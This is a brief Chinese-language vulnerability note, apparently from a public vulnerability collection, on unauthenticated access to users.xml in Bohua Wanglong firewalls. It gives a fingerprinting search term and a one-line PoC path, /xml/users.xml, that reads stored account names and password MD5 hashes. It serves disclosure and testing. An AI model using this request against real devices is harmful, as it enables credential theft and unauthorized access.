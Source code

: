 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

<a-checkbox checked>博华网龙防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"博华网龙防火墙"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628670749851-c85b5406-15f0-498c-9edd-80b1eb2ac426.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628670712797-5caf4c4d-716b-4aa4-9468-d1ff8c433b66.png)



